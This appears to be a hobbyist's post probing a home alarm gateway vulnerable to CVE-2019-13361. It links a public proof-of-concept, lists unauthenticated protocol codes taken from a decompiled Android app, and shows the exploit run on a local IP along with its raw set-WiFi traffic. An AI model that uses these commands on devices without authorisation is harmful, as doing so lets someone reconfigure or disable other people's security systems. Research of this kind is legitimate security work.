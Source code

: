 
https://github.com/lodi-g/CVE-2019-13361/blob/75712ea4d6308d2c2d5bc3693b27170da6869cc9/poc.py

The scripts already mentions the protocols  CGWPCS48 and CGWPCS53


I Decompiled the android app.
Uploaded the relative java class containg the payload info

https://pastebin.com/2J7aGxti


From there I listed all protocols mentioned in the Java class

```
CGWPCS48	Set WiFi
CGWPCS51	Parameter
CGWPCS52	RemoveAlarm
CGWPCS53	SetMode
CGWPCS54	QueryJion
CGWPCS56	NewVersion
CGWPCS58	SysnTime
CGWPCS49	ServerRegister
CGWPCS50	InsideLogin
CGWPCS55	ClearUser
CGWPCSUDP	UDP Data (broadcast protocol)
```

I didn’t manage to make use of any ather protocols other than set WiFi and set mode . 

I did try to remove accessories with RemoveAlarm with no luck .

#  The CVE script

Running the CVE script: 

```
python3 poc.py 192.168.1.18  wifi_ssid wifi_password
```

Return:

```
set_wifi: sending:      b'CGWPCS4805wifi_ssid320wifipassword20250824165905\r\n'
```

CGWPCS48 is set WiFi code

05 is action code? In this case setup?

20250824165905 is the timestamp 

24 aug 2025 16:59 and 05 sec

then it prints
```
set_wifi: receiving:    b'CGWPSC03030123456A*
*\r'
```

